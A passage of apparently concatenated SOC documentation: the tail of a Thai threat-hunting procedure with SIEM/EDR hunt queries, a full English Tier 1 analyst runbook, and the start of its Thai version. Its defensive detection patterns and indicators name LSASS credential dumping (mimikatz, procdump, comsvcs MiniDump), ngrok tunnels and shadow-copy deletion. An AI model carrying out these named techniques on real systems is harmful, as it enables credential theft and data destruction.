-   [ ] **ขั้นที่ 1**: บันทึกสมมติฐานใน Hunting Log
-   [ ] **ขั้นที่ 2**: ระบุ data sources ที่เกี่ยวข้อง ตรวจสอบว่ามีข้อมูลพร้อมใช้
-   [ ] **ขั้นที่ 3**: สร้าง queries เบื้องต้น (SIEM, EDR, หรือ scripts)
-   [ ] **ขั้นที่ 4**: รัน queries และเก็บผลลัพธ์
-   [ ] **ขั้นที่ 5**: สืบสวน anomalies — pivot, correlate, enrich
-   [ ] **ขั้นที่ 6**: บันทึกผลการค้นพบ (พบ / ไม่พบ)
-   [ ] **ขั้นที่ 7**: ถ้าพบภัยคุกคาม → ส่งต่อ IR (ตาม [IR Framework](Framework.en.md))
-   [ ] **ขั้นที่ 8**: สร้างหรือปรับปรุง detection rule → [Detection Rule Testing SOP](../06_Operations_Management/Detection_Rule_Testing.en.md)
-   [ ] **ขั้นที่ 9**: ปิด hunt และอัปเดต Hunting Log

### 4.2 ตัวอย่าง Hunt Queries

#### Hunt H-01: Scheduled Task Persistence (T1053.005)

**Windows Event Log (SIEM Query)**:
```
EventID:4698 OR EventID:106
| where TaskName NOT IN ("Microsoft\\*", "\\GoogleUpdate*")
| stats count by ComputerName, TaskName, TaskAuthor
| where count < 3
```

**EDR Query**:
```
process_name:schtasks.exe
AND cmdline:("/create" OR "/change")
AND NOT cmdline:("\\Microsoft\\*")
| rare by cmdline, hostname
```

#### Hunt H-04: LSASS Memory Access (T1003.001)

```
target_process:lsass.exe
AND access_type:PROCESS_VM_READ
AND NOT source_process IN (
    "csrss.exe", "services.exe", "svchost.exe",
    "wininit.exe", "MsMpEng.exe"
)
```

#### Hunt H-10: Reverse Proxy / NGROK Tunneling

```
dns_query:("*.ngrok.io" OR "*.trycloudflare.com" OR "*.serveo.net")
OR proxy_url CONTAINS ("ngrok.io" OR "trycloudflare.com")
| stats count by src_ip, hostname, dns_query
```

---

## 5. ความถี่ในการล่า

| ประเภทการล่า | ความถี่ | ผู้รับผิดชอบ | ระยะเวลา |
|:---|:---:|:---|:---:|
| **Intelligence-driven** (IOC/TTP ใหม่) | ตามเหตุการณ์ | Tier 2/3 | 2–4 ชม. |
| **Hypothesis-driven** (ตามกำหนด) | สัปดาห์ละครั้ง | Tier 2/3 | 4–8 ชม. |
| **MITRE gap-driven** | เดือนละครั้ง | Hunt Lead | 1–2 วัน |
| **Post-incident** | หลังทุก P1/P2 | IR Lead | 4–8 ชม. |
| **Quarterly deep dive** | ไตรมาสละครั้ง | Hunt Lead | 1 สัปดาห์ |

---

## 6. ระดับความสมบูรณ์ (Maturity Model)

```mermaid
graph LR
    L0[Level 0<br>ไม่มี Hunting] --> L1[Level 1<br>ทำเป็นครั้งคราว]
    L1 --> L2[Level 2<br>มีโครงสร้าง]
    L2 --> L3[Level 3<br>เชิงรุก]
    L3 --> L4[Level 4<br>อัตโนมัติ]

    style L0 fill:#dc2626,color:#fff
    style L1 fill:#f97316,color:#fff
    style L2 fill:#eab308,color:#000
    style L3 fill:#22c55e,color:#fff
    style L4 fill:#3b82f6,color:#fff
```

| ระดับ | คำอธิบาย | เกณฑ์ |
|:---:|:---|:---|
| **0** | ไม่มีความสามารถในการล่า | ตอบสนองเฉพาะ alert เท่านั้น |
| **1** | ล่าเป็นครั้งคราว | ล่าเฉพาะหลังเหตุการณ์ร้ายแรง |
| **2** | มีโครงสร้าง | ล่าตามกำหนดการ, มีสมมติฐาน, มี metrics เบื้องต้น |
| **3** | เชิงรุก | สอดคล้อง MITRE, ขับเคลื่อนด้วย threat intel, ป้อนกลับเป็น rule ใหม่ |
| **4** | อัตโนมัติ | ใช้ ML ตรวจจับ anomaly, สร้างสมมติฐานอัตโนมัติ |

### แบบประเมินตนเอง

-   [ ] เราล่าอย่างน้อย **สัปดาห์ละครั้ง** หรือไม่?
-   [ ] สมมติฐานถูก **บันทึก** ก่อนดำเนินการหรือไม่?
-   [ ] การล่าสร้าง **detection rule ใหม่** หรือไม่?
-   [ ] coverage ถูกแมปกับ **MITRE ATT&CK** หรือไม่?
-   [ ] เราติดตาม **Hunting KPIs** หรือไม่?
-   [ ] มี **นักล่าเฉพาะทาง** (ไม่ใช่แค่ reactive analyst) หรือไม่?

---

## 7. ตัวชี้วัด (KPIs)

| KPI | เป้าหมาย | วิธีวัด |
|:---|:---:|:---|
| จำนวนการล่าต่อเดือน | ≥ 4 | นับ hunt tickets ที่ปิดแล้ว |
| Detection rules ที่สร้างจากการล่า | ≥ 2/เดือน | Sigma rules ใหม่จาก hunting |
| MITRE technique coverage เพิ่มขึ้น | +5% / ไตรมาส | ATT&CK Navigator delta |
| MTTD ลดลง | ↓ 10% / ไตรมาส | เปรียบเทียบก่อน-หลังมี hunt rules |
| True positive rate ของ rules ใหม่ | ≥ 70% | TP / (TP + FP) |
| ระยะเวลาที่ผู้บุกรุกอยู่ในระบบลดลง | ↓ ทุกไตรมาส | ค่าเฉลี่ย detection lag |

---

## 8. Template บันทึกการล่า (Hunting Log)

ทุกการล่าต้องบันทึกด้วย template นี้:

| ฟิลด์ | ค่า |
|:---|:---|
| **Hunt ID** | TH-YYYY-NNN |
| **วันที่** | [YYYY-MM-DD] |
| **ผู้ล่า** | [ชื่อ Analyst] |
| **สมมติฐาน** | [อธิบายสมมติฐาน] |
| **MITRE Technique** | [T-code] |
| **Trigger** | Intelligence / Hypothesis / Data / Gap / Incident |
| **Data Sources ที่ใช้** | [รายชื่อ logs] |
| **Queries ที่ใช้** | [แนบ SIEM/EDR queries] |
| **ผลการค้นพบ** | พบ / ไม่พบ / ไม่แน่ชัด |
| **หลักฐาน** | [screenshots, IOCs, timelines] |
| **การดำเนินการ** | ส่งต่อ IR / สร้าง detection rule / ไม่มี |
| **Detection Rule ที่สร้าง** | [ชื่อไฟล์ Sigma หรือ "N/A"] |
| **เวลาที่ใช้** | [ชั่วโมง] |
| **สถานะ** | เปิด / กำลังดำเนินการ / ปิด |

---

## 9. Hunt Playbooks 10 อันดับแรก (พร้อมใช้งาน)

### HP-01: Unauthorized Scheduled Tasks (T1053)
- **Query**: scheduled tasks ใหม่ใน 7 วันที่ไม่ตรง whitelist
- **ตัวบ่งชี้**: task สร้างโดย non-admin, binary ผิดปกติ
- **ส่งต่อ**: ถ้าพบ → PB-07 Privilege Escalation

### HP-02: LSASS Credential Dumping (T1003)
- **Query**: process ที่เข้าถึง lsass.exe memory
- **ตัวบ่งชี้**: procdump, mimikatz, comsvcs.dll MiniDump
- **ส่งต่อ**: ถ้าพบ → PB-05 Account Compromise

### HP-03: DNS Tunneling / DGA (T1048.003)
- **Query**: DNS queries ที่มี subdomain ยาวผิดปกติหรือ entropy สูง
- **ตัวบ่งชี้**: Query ยาว > 50 ตัวอักษร, NXDomain ratio > 30%
- **ส่งต่อ**: ถ้าพบ → PB-24 DNS Tunneling

### HP-04: Living-off-the-Land / LOLBins (T1218)
- **Query**: certutil, mshta, regsvr32, rundll32 ที่มี network activity
- **ตัวบ่งชี้**: download flags, encoded parameters, parent process ผิดปกติ
- **ส่งต่อ**: ถ้าพบ → PB-11 Suspicious Script

### HP-05: Lateral Movement ผ่าน Admin Shares (T1021.002)
- **Query**: SMB connections ไปยัง C$ หรือ ADMIN$ จาก workstation ที่ไม่ใช่ admin
- **ตัวบ่งชี้**: เข้าถึงหลายเครื่องในเวลาสั้น, off-hours
- **ส่งต่อ**: ถ้าพบ → PB-12 Lateral Movement

### HP-06: Cloud Identity Anomalies (T1078.004)
- **Query**: Impossible travel, MFA registration ใหม่, service principal abuse
- **ตัวบ่งชี้**: login จากประเทศใหม่, user agent อัตโนมัติ
- **ส่งต่อ**: ถ้าพบ → PB-16 Cloud IAM Anomaly

### HP-07: Email Forwarding Rules (T1114.003)
- **Query**: inbox rules ใหม่ที่ forward ไปยัง domain ภายนอก
- **ตัวบ่งชี้**: rule สร้างผ่าน API, forward ไป email ส่วนตัว
- **ส่งต่อ**: ถ้าพบ → PB-17 BEC

### HP-08: Data Staging / Compression (T1560)
- **Query**: สร้าง archive ขนาดใหญ่ (7z, rar, zip) บน servers
- **ตัวบ่งชี้**: archive > 100MB, สร้างนอกเวลาทำงาน
- **ส่งต่อ**: ถ้าพบ → PB-08 Data Exfiltration

### HP-09: Reverse Proxy C2 (T1572)
- **Query**: ngrok.io, trycloudflare.com DNS / proxy hits
- **ตัวบ่งชี้**: connections ต่อเนื่อง, traffic สองทิศทาง
- **ส่งต่อ**: ถ้าพบ → PB-13 C2 Communication

### HP-10: Cryptomining (T1496)
- **Query**: process CPU สูง, connections ไปยัง mining pools
- **ตัวบ่งชี้**: xmrig, minergate, pool.* DNS queries
- **ส่งต่อ**: ถ้าพบ → PB-23 Cryptomining

---

## เอกสารที่เกี่ยวข้อง

-   [IR Framework](Framework.en.md)
-   [Severity Matrix](Severity_Matrix.en.md)
-   [SOAR Playbooks](SOAR_Playbooks.en.md)
-   [Detection Rule Testing SOP](../06_Operations_Management/Detection_Rule_Testing.en.md)
-   [TI Feeds Integration](../06_Operations_Management/TI_Feeds_Integration.en.md)
-   [Threat Intelligence Lifecycle](../06_Operations_Management/Threat_Intelligence_Lifecycle.en.md)
-   [SOC Metrics & KPIs](../06_Operations_Management/SOC_Metrics.en.md)
-   [Atomic Test Map](../09_Simulation_Testing/Atomic_Test_Map.en.md)

### Hunt Hypothesis Template

| Field | Content |
|:---|:---|
| Hypothesis | [สมมติฐาน] |
| Data Sources | [log sources ที่ต้องใช้] |
| Tools | [เครื่องมือ] |
| Timeframe | [ช่วงเวลา] |
| Success Criteria | [เกณฑ์ที่บ่งชี้การพบภัย] |

### Hunt Priority

| Level | Trigger |
|:---|:---|
| P1 | Active threat intel |
| P2 | Gap in coverage |

## อ้างอิง

-   [MITRE ATT&CK](https://attack.mitre.org/)
-   [Sqrrl Threat Hunting Framework](https://www.threathunting.net/sqrrl-archive)
-   [SANS Threat Hunting Survey](https://www.sans.org/white-papers/threat-hunting-survey/)
-   [TaHiTI — Targeted Hunting integrating Threat Intelligence](https://www.betaalvereniging.nl/wp-content/uploads/TaHiTI-Threat-Hunting-Methodology.pdf)
-   [NIST SP 800-61r2](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)


---

## File: 05_Incident_Response/Runbooks/Tier1_Runbook.en.md

# SOC Tier 1 Analyst Runbook

> **Document ID:** RB-T1-001  
> **Version:** 2.0  
> **Last Updated:** 2026-02-16  
> **Owner:** SOC Manager  
> **Audience:** Tier 1 / Junior SOC Analysts

---

## 🆕 Your First Day — Setup Checklist

Before you process your first alert, make sure you have:

```
□ SIEM access (read + search) — Splunk / Elastic / Sentinel
□ EDR console access (read-only minimum)
□ Ticketing system account (create + update tickets)
□ SOC chat channel joined (Slack/Teams #soc-alerts, #soc-general)
□ VPN + jump box access configured
□ Bookmarks saved:
    - VirusTotal, AbuseIPDB, URLhaus, Shodan
    - Internal wiki / FP runbook
    - This runbook (keep it open!)
□ Shift calendar reviewed — know your hours and rotation
□ Emergency contacts saved (T2 Lead, IR Lead, SOC Manager)
□ Read: IR Framework, Severity Matrix, Escalation Matrix
□ Shadow a senior analyst for at least 1 full shift
```

---

## Your Daily Workflow

```
08:00  Shift start → Read handoff notes → Check dashboards
08:15  Review overnight alerts queue → Triage by severity
08:30  Begin alert processing (target: 12–15 alerts/hour)
       ↓ Continuous cycle ↓
       Triage → Investigate → Escalate or Close
12:00  Midday review with T2 lead
16:00  Prepare shift handoff notes
16:30  Handoff to next shift
```

```mermaid
graph LR
    Start["🕗 Shift Start"] --> Handoff["📋 Read Handoff"]
    Handoff --> Dashboard["📊 Check Dashboards"]
    Dashboard --> Queue["📥 Alert Queue"]
    Queue --> Triage["⚡ Triage"]
    Triage --> Investigate["🔍 Investigate"]
    Investigate --> Decision{TP or FP?}
    Decision -->|TP| Escalate["🚨 Escalate to T2"]
    Decision -->|FP| Close["✅ Close + Document"]
    Escalate --> Queue
    Close --> Queue
    Queue --> EOD["🕓 Shift End → Handoff"]
```

---

## Alert Triage — The First 5 Minutes

### Step 1: Read the Alert
| Check | What to Look For |
|:---|:---|
| **Source** | Which tool generated this? (EDR, SIEM, IDS, email gateway) |
| **Severity** | How did the tool classify it? (Critical/High/Medium/Low) |
| **Asset** | What system is affected? (server, workstation, cloud resource) |
| **User** | Who is associated? (employee, service account, admin) |
| **Timestamp** | When did it happen? (business hours? weekend?) |

### Step 2: Quick Context Check (2 min)
```
□ Is this a known false positive? → Check FP runbook
□ Is this asset in maintenance? → Check change calendar
□ Has this user/host triggered similar alerts recently? → Check SIEM history (7 days)
□ Is this a repeat of an existing incident? → Check open tickets
```

### Step 3: Decide

```mermaid
graph TD
    Alert["🚨 New Alert"] --> Read["Read Alert Details"]
    Read --> Known{"Known FP pattern?"}
    Known -->|Yes| CloseFP["❌ Close as FP + Document"]
    Known -->|No/Unsure| Enrich["Enrich IOCs"]
    Enrich --> IOCMatch{"IOC matches TI feed?"}
    IOCMatch -->|Yes| TP["✅ True Positive → Escalate T2"]
    IOCMatch -->|No| Context{"Unusual context?"}
    Context -->|"Off-hours / VIP / Lateral"| TP
    Context -->|Normal behavior| FP["❌ False Positive → Close + Tune"]
    Alert --> Severity{"Is this P1/Critical?"}
    Severity -->|Yes| Immediate["🔴 ESCALATE IMMEDIATELY"]
```

| Decision | Action | Time Limit |
|:---|:---|:---:|
| ✅ **True Positive** | Create incident ticket → Escalate to T2 | 15 min |
| ⚠️ **Needs More Investigation** | Enrich IOCs → Pivot search → Then decide | 30 min |
| ❌ **False Positive** | Document reason → Close → Update tuning list | 5 min |
| 🔴 **Critical / P1** | **Escalate IMMEDIATELY** to T2/IR Lead | 0 min |

---

## Escalation Triggers — ALWAYS Escalate These

🚨 **Immediately escalate to T2/IR Lead if you see ANY of these:**

- Ransomware indicators (file encryption, shadow copy deletion)
- Active data exfiltration (large uploads to external IPs)
- Executive/VIP account compromise
- Multiple hosts showing same malicious behavior
- Production server compromise
- Confirmed malware execution
- Any OT/ICS alerts
- Active C2 beaconing detected
- Credential dumping tools (Mimikatz, secretsdump)
- You don't understand the alert after 30 minutes

### Escalation Flow

```mermaid
graph TD
    T1["👤 Tier 1 Analyst"] -->|"P3/P4 Alert"| Self["Handle + Close"]
    T1 -->|"P2 Alert or unsure after 30min"| T2["👥 Tier 2 Analyst"]
    T1 -->|"P1 Critical"| IRLead["🚨 IR Lead"]
    T2 -->|"Confirmed incident"| IRLead
    T2 -->|"Advanced threat / APT"| T3["🔬 Tier 3 / Threat Hunter"]
    IRLead -->|"Data breach confirmed"| Legal["⚖️ Legal + PDPA"]
    IRLead -->|"Insider threat"| HR["👔 HR"]
    IRLead -->|"Infra impact"| IT["🖥️ IT Ops"]
    IRLead -->|"Business impact"| CISO["🛡️ CISO / Management"]

    style T1 fill:#4CAF50,color:#fff
    style T2 fill:#FF9800,color:#fff
    style IRLead fill:#f44336,color:#fff
    style T3 fill:#9C27B0,color:#fff
```

---

## Common Alert Types & Quick Actions

### 🎣 Phishing Email Alert → PB-01
```
1. DO NOT click any links/attachments in the email
2. Check email headers → Is sender spoofed? (SPF/DKIM fail?)
3. Check URL reputation → VirusTotal, URLhaus
4. Check if other users received the same email → SIEM search
5. If malicious → Block sender + URL → Escalate to T2
```

### 🔐 Failed Login Alert (Brute Force) → PB-04
```
1. Check source IP → Internal or external?
2. Count failed attempts → How many? Over what period?
3. Check if any login succeeded after failures
4. If external + >10 attempts → Block IP at firewall
5. If succeeded after failures → Escalate to T2 (possible compromise)
```

### 🦠 Malware/EDR Alert → PB-03
```
1. Check detection name → What type of malware?
2. Was it blocked or did it execute?
3. Check process tree → What launched it?
4. If EXECUTED → Escalate to T2 immediately
5. If BLOCKED → Verify quarantine → Check for other instances
```

### 🌐 Web Attack / WAF Alert → PB-10
```
1. Check attack type → SQLi, XSS, RCE?
2. Check response code → 200 (possible success) vs 403/WAF blocked
3. Check source IP → Known scanner or targeted?
4. If response=200 + payload looks successful → Escalate to T2
5. If blocked → Log and monitor for persistence
```

### ☁️ Cloud Alert (AWS/Azure) → PB-16
```
1. What action triggered the alert?
2. Which IAM user/role?
3. From what IP/region?
4. Is this a known admin action?
5. If unusual region + privileged action → Escalate to T2
```

### 💀 Ransomware Indicators → PB-02
```
1. Are files being encrypted? Check file extension changes
2. Shadow copy deletion? (vssadmin delete shadows)
3. Ransom note present?
4. ESCALATE IMMEDIATELY — DO NOT wait
5. Isolate affected host if you have EDR capability
```

### 🔀 Lateral Movement → PB-12
```
1. Is a compromised host connecting to other internal hosts?
2. Check for PsExec, WMI, RDP from unusual sources
3. Are service accounts being used interactively?
4. Multiple hosts + same IOC = Escalate NOW
5. Document all affected hosts for T2
```

### 📤 Data Exfiltration → PB-08
```
1. Large outbound data transfer detected — how much? To where?
2. Is the destination IP known (cloud backup) or unknown?
3. Is this during business hours by a legitimate user?
4. Check DLP alerts for data classification
5. If sensitive data + external dest → Escalate immediately
```

### 👤 Insider Threat Indicators → PB-14
```
1. Unusual access patterns — off-hours, high volume
2. Accessing data outside job scope?
3. USB/external storage usage?
4. DO NOT alert the suspected user
5. Escalate to T2 + notify SOC Manager (HR may need to be involved)
```

### 🌊 DDoS Alert → PB-09
```
1. Is the service actually degraded? Check uptime monitoring
2. Traffic volume — how much above baseline?
3. Source — single IP or distributed?
4. Notify NOC/Network team immediately
5. Escalate to T2 for coordination
```

---

## False Positive Cheat Sheet

Common FP patterns — learn to recognize these quickly:

| Alert Type | Common FP Pattern | How to Confirm |
|:---|:---|:---|
| Brute force | Helpdesk users resetting passwords | Check if same user + helpdesk IP |
| Malware | AV flagging legitimate admin tools | Check if tool is in approved list |
| C2 beaconing | Regular heartbeat to SaaS/CDN | Check domain: Akamai, Cloudflare, AWS |
| Data exfil | Backup jobs, cloud sync | Check scheduled task + destination |
| Impossible travel | VPN split-tunnel + cloud login | Check if VPN IP matches user's VPN session |
| Web attack | Security scanners (Qualys, Nessus) | Check source IP against scanner list |
| Privilege escalation | Scheduled admin maintenance | Check change management calendar |
| Failed logins | Service account password rotation | Check if matches rotation schedule |

### FP Documentation Template
```
FP Reason: [why this is a false positive]
Pattern: [describe the recurring pattern]
Recommendation: □ Tune alert  □ Add exclusion  □ Accept risk
Approved by: [T2 analyst name]
```

---

## SIEM Query Templates

### Splunk

```spl
# Find all alerts for a specific host (last 24h)
index=alerts host="HOSTNAME" earliest=-24h | stats count by alert_name, severity

# Failed logins from a specific IP
index=auth action=failure src_ip="X.X.X.X" earliest=-7d
| stats count by user, dest, _time | sort -count

# Outbound traffic volume by destination
index=network direction=outbound src_ip="INTERNAL_IP" earliest=-24h
| stats sum(bytes_out) as total_bytes by dest_ip
| sort -total_bytes | head 20

# Process execution on endpoint
index=edr host="HOSTNAME" earliest=-48h
| stats count by process_name, parent_process, user | sort -count

# Email search — did others get the same phishing?
index=email subject="*SUSPICIOUS SUBJECT*" earliest=-7d
| stats count by recipient, src_sender, action
```

### Elastic (KQL)

```
# Alerts for a host
event.kind: "alert" AND host.name: "HOSTNAME"

# Failed logins
event.outcome: "failure" AND event.category: "authentication"
  AND source.ip: "X.X.X.X"

# Large outbound transfers
network.direction: "outbound" AND source.bytes > 100000000

# Process execution
event.category: "process" AND host.name: "HOSTNAME"
  AND process.name: ("powershell.exe" OR "cmd.exe" OR "wscript.exe")
```

---

## IOC Enrichment — Quick Reference

| IOC Type | Where to Check | Free Tools |
|:---|:---|:---|
| IP Address | Reputation, Geolocation, ASN | VirusTotal, AbuseIPDB, Shodan |
| Domain | WHOIS, DNS, Reputation | VirusTotal, URLhaus, DomainTools |
| File Hash | Malware database | VirusTotal, MalwareBazaar, Hybrid Analysis |
| URL | Reputation, Redirect chain | VirusTotal, URLScan.io, URLhaus |
| Email Address | Breach databases, reputation | Have I Been Pwned, EmailRep |

### VirusTotal Quick Check
```
IP:   https://www.virustotal.com/gui/ip-address/{IP}
Hash: https://www.virustotal.com/gui/file/{HASH}
URL:  https://www.virustotal.com/gui/url/{URL}
```

### Command-Line IOC Checks
```bash
# VirusTotal IP lookup
curl -s "https://www.virustotal.com/api/v3/ip_addresses/{IP}" \
  -H "x-apikey: $VT_API_KEY" | jq '.data.attributes.last_analysis_stats'

# AbuseIPDB check
curl -s "https://api.abuseipdb.com/api/v2/check?ipAddress={IP}" \
  -H "Key: $ABUSEIPDB_KEY" | jq '.data.abuseConfidenceScore'

# Quick WHOIS
whois {DOMAIN} | grep -E "Registrar|Creation|Name Server"
```

---

## Log Source Quick Reference

Which log answers which question?

| Question | Log Source | Where |
|:---|:---|:---|
| Who logged in? When? | Authentication logs | AD/Azure AD/Okta |
| What process ran? | EDR telemetry | CrowdStrike/Defender/SentinelOne |
| What website was visited? | Proxy/DNS logs | Web proxy, DNS server |
| What file was downloaded? | Proxy + EDR | Web proxy + endpoint |
| Was data sent out? | Firewall/DLP | Firewall, DLP gateway |
| What email was received? | Email gateway | Exchange/O365/Proofpoint |
| What changed on the server? | Windows Event Log | Event ID 4688, 4624, 4625 |
| What API call was made? | Cloud audit log | CloudTrail/Azure Activity/GCP Audit |
| What rule was triggered? | IDS/IPS | Suricata/Snort/Palo Alto |
| Was a vulnerability exploited? | WAF + App logs | WAF, application server |

### Key Windows Event IDs
| Event ID | Meaning |
|:---|:---|
| 4624 | Successful logon |
| 4625 | Failed logon |
| 4648 | Logon with explicit credentials |
| 4688 | New process created |
| 4720 | User account created |
| 4732 | User added to security group |
| 7045 | New service installed |
| 1102 | Audit log cleared ⚠️ |

---

## Ticket Documentation Template

Every alert you process should be documented:

```
## Alert Summary
- Alert ID: [from SIEM]
- Timestamp: [when alert fired]
- Source Tool: [EDR/SIEM/IDS/other]
- Affected Asset: [hostname/IP]
- Affected User: [username]
- Alert Type: [phishing/malware/brute-force/etc]

## Investigation Steps
1. [What you checked first]
2. [What you found]
3. [Additional context gathered]

## IOC Summary
- IP: x.x.x.x (VT score: X/90)
- Hash: abc123... (VT score: X/70)
- Domain: evil.com (registered: yesterday)

## Decision
- [x] True Positive → Escalated to T2 (ticket #XXX)
- [ ] False Positive → Closed (reason: known scanner)
- [ ] Needs Further Investigation

## Actions Taken
- Blocked IP at firewall
- Quarantined file on endpoint
- Notified user
```

---

## SLA by Severity

| Severity | Response Time | Triage Time | Escalation Deadline |
|:---|:---:|:---:|:---:|
| 🔴 Critical (P1) | ≤ 5 min | ≤ 15 min | Immediate |
| 🟠 High (P2) | ≤ 10 min | ≤ 30 min | ≤ 1 hour |
| 🟡 Medium (P3) | ≤ 30 min | ≤ 60 min | ≤ 4 hours |
| 🟢 Low (P4) | ≤ 60 min | ≤ 4 hours | Next shift |

### Alert Source → Severity Mapping

| Alert Source | Default Severity | Initial Action |
|:---|:---|:---|
| EDR — Malware executed | 🔴 Critical | Isolate + Escalate |
| EDR — Malware blocked | 🟡 Medium | Verify quarantine |
| SIEM — Failed logins (>10) | 🟡 Medium | Verify user + Lock |
| DLP — Sensitive data exfil | 🔴 Critical | Block + Escalate |
| Firewall — Port scan | 🟢 Low | Monitor + Log |
| IDS — Exploit attempt | 🟠 High | Block IP + Investigate |
| Email — Phishing detected | 🟡 Medium | Check scope + Block |
| Cloud — Root/admin action | 🟠 High | Verify identity + action |

---

## Performance Metrics — Know Your Targets

| Metric | Target | How to Improve |
|:---|:---:|:---|
| Alerts processed/hour | 12–15 | Use keyboard shortcuts, bookmark tools |
| Mean Time to Triage (MTTT) | ≤ 10 min | Follow the 5-minute checklist above |
| False Positive Rate | < 30% | Study the FP cheat sheet |
| Escalation Accuracy | > 90% | When in doubt, escalate |
| Ticket Documentation | 100% | Use the template — every time |
| SLA Compliance | > 95% | Check severity → set timer |
| Shift Handoff Completion | 100% | Use the handoff template |

---

## Shift Handoff Checklist

Before ending your shift:

```
□ All alerts triaged (none pending >30 min)
□ Open incidents updated with latest status
□ Escalated items confirmed received by T2
□ Handoff notes written in shared document:
  - Number of alerts processed
  - Any ongoing incidents
  - Anything unusual or concerning
  - Any systems in degraded state
□ Dashboard screenshots saved if anomalies noted
```

### Handoff Notes Template
```
=== Shift Handoff: [DATE] [SHIFT] ===
Analyst: [YOUR NAME]

✅ Closed: [N] alerts
⏳ Open:   [N] tickets still in progress
🔴 Active Incidents: [list or "none"]

📝 Key Notes:
  - [anything the next shift needs to know]
  - [any degraded systems or ongoing scans]

⚠️ Watch For:
  - [any alerts expected to recur]
  - [any pending escalation responses]
```

---

## Do's and Don'ts

| ✅ Do | ❌ Don't |
|:---|:---|
| Ask for help if unsure | Sit on an alert for >30 min without acting |
| Document everything | Close alerts without investigation notes |
| Escalate early if P1 | Try to handle P1 incidents alone |
| Check for related alerts | Look at alerts in isolation |
| Use the playbooks | Rely only on memory |
| Communicate status updates | Go silent during incidents |
| Time-box your investigation | Spend 2 hours on a Low-severity alert |
| Validate IOCs in multiple sources | Trust a single VT score blindly |
| Flag recurring FPs for tuning | Keep closing the same FP every day |

---

## Key Contacts

| Role | When to Contact |
|:---|:---|
| T2 Analyst | Any alert you can't resolve in 30 min |
| IR Lead | Confirmed P1/P2 incidents |
| SOC Manager | Operational issues, tool outages |
| IT Ops | Server/network issues during investigation |
| HR | Insider threat cases |
| Legal | Data breach confirmed, PDPA notification |

---

## Related Documents

- [IR Framework](../Framework.en.md)
- [Severity Matrix](../Severity_Matrix.en.md)
- [Escalation Matrix](../Escalation_Matrix.en.md)
- [Shift Handoff](../../06_Operations_Management/Shift_Handoff.en.md)
- [All Playbooks (PB-01 to PB-50)](../Playbooks/Phishing.en.md)


---

## File: 05_Incident_Response/Runbooks/Tier1_Runbook.th.md

# คู่มือปฏิบัติงาน SOC Tier 1

> **รหัสเอกสาร:** RB-T1-001  
> **เวอร์ชัน:** 2.0  
> **อัปเดตล่าสุด:** 2026-02-16  
> **เจ้าของ:** SOC Manager  
> **กลุ่มเป้าหมาย:** Tier 1 / SOC Analyst มือใหม่

---

## 🆕 วันแรกของคุณ — Checklist เตรียมตัว

ก่อนจะเริ่มดู alert แรก ต้องเตรียมสิ่งนี้ให้ครบ:

```
□ SIEM access (read + search) — Splunk / Elastic / Sentinel
□ EDR console access (read-only ขั้นต่ำ)
□ ระบบ Ticket (สร้าง + อัปเดต)
□ เข้าห้อง chat SOC แล้ว (Slack/Teams #soc-alerts, #soc-general)
□ VPN + jump box ตั้งค่าแล้ว
□ Bookmark เก็บแล้ว:
    - VirusTotal, AbuseIPDB, URLhaus, Shodan
    - Wiki ภายใน / FP runbook
    - Runbook นี้ (เปิดไว้ตลอด!)
□ ดูปฏิทินกะแล้ว — รู้เวลาและ rotation
□ เบอร์ติดต่อฉุกเฉินบันทึกแล้ว (T2 Lead, IR Lead, SOC Manager)
□ อ่านแล้ว: IR Framework, Severity Matrix, Escalation Matrix
□ Shadow analyst รุ่นพี่อย่างน้อย 1 กะเต็ม
```

---

## ขั้นตอนการทำงานประจำวัน

```
08:00  เริ่มกะ → อ่าน handoff notes → เช็ค dashboard
08:15  ตรวจสอบ alert queue → จัดลำดับตามความรุนแรง
08:30  เริ่ม process alerts (เป้าหมาย: 12–15 alerts/ชม.)
       ↓ วนซ้ำ ↓
       Triage → สืบสวน → Escalate หรือ Close
12:00  Review กลางวันกับ T2 lead
16:00  เตรียม handoff notes
16:30  ส่งมอบกะ
```

```mermaid
graph LR
    Start["🕗 เริ่มกะ"] --> Handoff["📋 อ่าน Handoff"]
    Handoff --> Dashboard["📊 เช็ค Dashboard"]
    Dashboard --> Queue["📥 Alert Queue"]
    Queue --> Triage["⚡ Triage"]
    Triage --> Investigate["🔍 สืบสวน"]
    Investigate --> Decision{TP หรือ FP?}
    Decision -->|TP| Escalate["🚨 Escalate T2"]
    Decision -->|FP| Close["✅ ปิด + บันทึก"]
    Escalate --> Queue
    Close --> Queue
    Queue --> EOD["🕓 จบกะ → Handoff"]
```

---

## Alert Triage — 5 นาทีแรก

### ขั้นที่ 1: อ่าน Alert
| ตรวจอะไร | มองหาอะไร |
|:---|:---|
| **แหล่ง** | เครื่องมือไหนแจ้ง? (EDR, SIEM, IDS, email gateway) |
| **ความรุนแรง** | ระบบจัดลำดับอย่างไร? (Critical/High/Medium/Low) |
| **ระบบ** | เครื่องไหนโดน? (server, workstation, cloud) |
| **ผู้ใช้** | ใครเกี่ยวข้อง? (พนักงาน, service account, admin) |
| **เวลา** | เกิดขึ้นเมื่อไร? (ในเวลางาน? วันหยุด?) |

### ขั้นที่ 2: ตรวจบริบท (2 นาที)
```
□ เป็น false positive ที่รู้จักไหม? → เช็ค FP runbook
□ ระบบอยู่ในช่วง maintenance ไหม? → เช็คปฏิทินเปลี่ยนแปลง
□ user/host นี้เคยมี alert คล้ายกันหรือเปล่า? → ดูย้อน 7 วัน
□ ซ้ำกับ incident ที่เปิดอยู่ไหม? → เช็ค ticket
```

### ขั้นที่ 3: ตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Alert ใหม่"] --> Read["อ่านรายละเอียด Alert"]
    Read --> Known{"เป็น FP ที่รู้จัก?"}
    Known -->|ใช่| CloseFP["❌ ปิดเป็น FP + บันทึก"]
    Known -->|ไม่แน่ใจ| Enrich["Enrich IOCs"]
    Enrich --> IOCMatch{"IOC ตรงกับ TI feed?"}
    IOCMatch -->|ใช่| TP["✅ True Positive → Escalate T2"]
    IOCMatch -->|ไม่| Context{"บริบทผิดปกติ?"}
    Context -->|"นอกเวลา / VIP / Lateral"| TP
    Context -->|พฤติกรรมปกติ| FP["❌ False Positive → ปิด + Tune"]
    Alert --> Severity{"เป็น P1/Critical?"}
    Severity -->|ใช่| Immediate["🔴 ESCALATE ทันที"]
```

| ตัดสินใจ | ทำอะไร | เวลา |
|:---|:---|:---:|
| ✅ **True Positive** | สร้าง ticket → Escalate T2 | 15 นาที |
